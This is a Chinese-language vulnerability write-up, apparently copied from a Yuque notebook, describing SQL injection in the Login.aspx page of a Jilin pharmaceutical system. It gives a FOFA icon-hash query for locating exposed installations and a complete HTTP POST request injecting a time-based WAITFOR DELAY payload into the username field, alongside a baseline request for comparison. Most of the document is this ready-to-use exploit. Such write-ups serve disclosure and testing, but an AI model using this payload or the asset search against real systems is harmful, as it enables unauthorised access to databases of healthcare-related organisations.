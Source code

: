 # 吉林医药系统Login存在SQL注入漏洞

# 一、漏洞简介
医药系统Login存在SQL注入漏洞

# 二、影响版本
+ 吉林医药系统

# 三、资产测绘
+ fofa`icon_hash="775044030"`

![1724330903965-56cc3f08-d8bd-45f0-ac8f-6ae92352d620.png](./img/KEXhPOOk2pxIcq1S/1724330903965-56cc3f08-d8bd-45f0-ac8f-6ae92352d620-535626.png)

# 四、漏洞复现
```plain
POST /Login.aspx HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Cookie: ASP.NET_SessionId=ojsdqzhri20qo0zd3zkonnpx
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Length: 293

__VIEWSTATE=%2FwEPDwUKLTY0OTc3MzY5OA8WAh4TVmFsaWRhdGVSZXF1ZXN0TW9kZQIBFgICAw9kFgICBA8WAh4JaW5uZXJodG1sBSHlkInmnpfnnIHogZrliJvljLvoja%2FmnInpmZDlhazlj7hkZFiU%2FDEzLkPCmDf498pGBLrtD3FC5XsVsdyX0eaNHaa1&tbUser=admin%27%3BWAITFOR+DELAY+%270%3A0%3A5%27--&tbPassword=admin&btnLogin=+%B5%C7+%C2%BC+&hfSubmit=&__VIEWSTATEGENERATOR=C2EE9ABB
```

![1724331068388-6394ab7c-0ff5-4116-bf1d-b1bf0327cf5a.png](./img/KEXhPOOk2pxIcq1S/1724331068388-6394ab7c-0ff5-4116-bf1d-b1bf0327cf5a-499230.png)

```plain
POST /Login.aspx HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Cookie: ASP.NET_SessionId=ojsdqzhri20qo0zd3zkonnpx
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Length: 293

__VIEWSTATE=%2FwEPDwUKLTY0OTc3MzY5OA8WAh4TVmFsaWRhdGVSZXF1ZXN0TW9kZQIBFgICAw9kFgICBA8WAh4JaW5uZXJodG1sBSHlkInmnpfnnIHogZrliJvljLvoja%2FmnInpmZDlhazlj7hkZFiU%2FDEzLkPCmDf498pGBLrtD3FC5XsVsdyX0eaNHaa1&tbUser=admin&tbPassword=admin&btnLogin=+%B5%C7+%C2%BC+&hfSubmit=&__VIEWSTATEGENERATOR=C2EE9ABB
```

![1724330958589-25328917-1401-44eb-aaf4-b477d14cd9c8.png](./img/KEXhPOOk2pxIcq1S/1724330958589-25328917-1401-44eb-aaf4-b477d14cd9c8-895217.png)



> 更新: 2024-11-27 10:01:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gsfq16xdvbag4hu6>